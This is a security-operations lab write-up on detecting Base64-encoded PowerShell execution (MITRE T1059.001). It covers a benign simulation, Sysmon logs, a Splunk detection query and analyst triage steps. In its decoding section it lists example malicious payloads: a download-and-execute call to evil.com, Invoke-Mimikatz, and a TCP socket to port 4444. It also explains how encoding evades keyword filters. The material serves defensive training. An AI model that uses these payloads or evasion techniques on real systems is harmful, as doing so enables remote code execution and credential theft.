


# Attack 3 — Encoded PowerShell Execution (T1059.001)

## MITRE ATT&CK Reference

| Field | Value |
|---|---|
| Technique | T1059.001 — Command and Scripting Interpreter: PowerShell |
| Tactic | Execution |
| Platform | Windows |
| Data Sources | Sysmon EID 1 · PowerShell EID 4104 (Script Block Logging) |
| MITRE URL | https://attack.mitre.org/techniques/T1059/001/ |


*MITRE ATT&CK technique page for T1059.001 — PowerShell abuse
is one of the most common execution techniques in real intrusions.*

---

## What This Attack Is

PowerShell is the most powerful scripting environment built into
Windows. It can download files, execute code in memory, interact
with the Windows API, manipulate Active Directory, and control
remote systems — all without writing anything to disk if done
carefully.

Because of this, attackers love it. But defenders also monitor
PowerShell heavily, which is why attackers add an extra layer:
**encoding**.

`powershell.exe -EncodedCommand <Base64 string>`

The `-EncodedCommand` (or `-enc` or `-e`) flag tells PowerShell
to decode and execute a Base64-encoded command. The actual
command is hidden unless you decode it.

**Why this matters:**

A simple defense might block PowerShell commands containing the
word `DownloadString` or `Invoke-Expression`. Encoded execution
bypasses that entirely — the command line shows only a Base64
blob, not the actual payload.

This technique appears in:
- Phishing email payloads (the VBA macro runs an encoded PS command)
- C2 frameworks like Cobalt Strike, Empire, Metasploit
- Ransomware droppers
- Living-off-the-land post-exploitation

---

## How I Simulated It

**Method 1 — Atomic Red Team:**

```powershell
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
Invoke-AtomicTest T1059.001
```

**Method 2 — Manual (to understand exactly what it looks like):**

```powershell
# Step 1: Write the command you want to hide
$cmd = "Write-Host 'SOC Lab Test - Encoded PowerShell'"

# Step 2: Encode it in UTF-16LE Base64 (PowerShell's required format)
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))

# Step 3: Display what the encoded string looks like
Write-Host "Encoded command: $encoded"

# Step 4: Execute it — this is what an attacker's payload does
powershell.exe -EncodedCommand $encoded
```

Output: `SOC Lab Test - Encoded PowerShell`

The encoded string that appeared in the command line:
`VwByAGkAdABlAC0ASABvAHMAdAAgACcAUwBPAEMAIABMAGEAYgAgAFQAZQBzAHQAIAAtACAARQBuAGMAbwBkAGUAZAAgAFAAbwB3AGUAcgBTAGgAZQBsAGwAJwA=`

To a defender who doesn't decode it, this is meaningless.
To an attacker, this is their payload executing invisibly.


*PowerShell running with -EncodedCommand on Windows 10. The top
shows the encoded Base64 string being generated. The bottom shows
the decoded command executing and printing its output. Sysmon
captured the full command line including the encoded string.*

---

## What the Logs Showed

**Sysmon Event ID 1 — Process Create:**

| Field | Value |
|---|---|
| Image | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| CommandLine | `powershell.exe -EncodedCommand VwByAGkA...` |
| ParentImage | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| User | `MSEDGEWIN10\IEUser` |
| IntegrityLevel | High |

The key observation: **PowerShell spawning PowerShell** with an
encoded command. One PowerShell process (the manual session or
Atomic) launched a child PowerShell with `-EncodedCommand`. This
parent-child relationship — PS → PS with encoding — is a strong
indicator of malicious use. Legitimate administrative scripts
rarely need to encode their commands.

---

## Detection Query

```splunk
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| rex field=_raw "<Data Name='CommandLine'>(?<CommandLine>[^<]+)"
| rex field=_raw "<Data Name='Image'>(?<Image>[^<]+)"
| rex field=_raw "<Data Name='ParentImage'>(?<ParentImage>[^<]+)"
| search (Image="*powershell*") AND
         (CommandLine="*-enc *" OR CommandLine="*-EncodedCommand*"
          OR CommandLine="*-e *")
| eval mitre_technique="T1059.001 - PowerShell Encoded Command"
| eval tactic="Execution"
| eval risk="HIGH"
| eval next_step="Decode Base64 payload. Check for IEX,
  DownloadString, WebClient, or C2 beacon patterns."
| table _time host Image CommandLine ParentImage
        mitre_technique risk next_step
| sort -_time
```


*Splunk catching the encoded PowerShell execution. The CommandLine
field shows the full -EncodedCommand flag and Base64 payload.
The detection fired on the -enc pattern in the command line.*

---

## How to Decode the Payload in an Investigation

When this detection fires in a real SOC, decoding the payload is
the first thing you do. Run this in PowerShell (safe — just decoding):

```powershell
# Extract just the Base64 part from your Splunk result
$encoded = "VwByAGkAdABlAC0ASABvAHMAdAAgACcAUwBP..."

# Decode it
[System.Text.Encoding]::Unicode.GetString(
    [System.Convert]::FromBase64String($encoded)
)
```

In a real malicious case you would see things like:
- `IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')`
- `Invoke-Mimikatz`
- `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1', 4444)`

In my lab the decoded output was:
`Write-Host 'SOC Lab Test - Encoded PowerShell'`

---

## How to Read This Detection as an L1 Analyst

**1. Is encoding expected in this environment?**
Some legitimate admin tools use encoded commands. Check with
your team what tooling runs in your environment. If you have a
known list of approved scripts, compare the hash.

**2. Who ran it and from where?**
An encoded PS command running from a user's desktop at 2am is
different from a scheduled task running it from a server.

**3. What is the parent process?**
`powershell.exe` spawned by `winword.exe` or `excel.exe` is
a macro-based attack. Escalate immediately.
`powershell.exe` spawned by `svchost.exe` needs investigation.
`powershell.exe` spawned by `cmd.exe` spawned by another PS
is the pattern in this lab — consistent with scripted attack tools.

**4. Decode and assess the payload**
If the decoded payload contains download, execute, or C2 patterns —
this is a true positive. Isolate the host.

---

## TheHive Case

- **Case title:** [Lab] Attack 3 — Encoded PowerShell T1059.001
- **Severity:** High
- **Status:** Resolved
- **MITRE tag:** T1059.001

## Triage note documented in TheHive:
- powershell.exe ran with -EncodedCommand flag on MSEDGEWIN10.
- Payload decoded to: Write-Host 'SOC Lab Test - Encoded PowerShell'.
- Parent process was powershell.exe — scripted execution pattern.
- IntegrityLevel High. No C2 or download activity in decoded payload
- (lab simulation). In a real incident the decoded payload must be
- assessed before disposition. Disposition: True Positive (lab).
- Detection validated. SPL query confirmed firing on -enc pattern.

---

## Full Detection Query File

[→ detection.spl](detection.spl)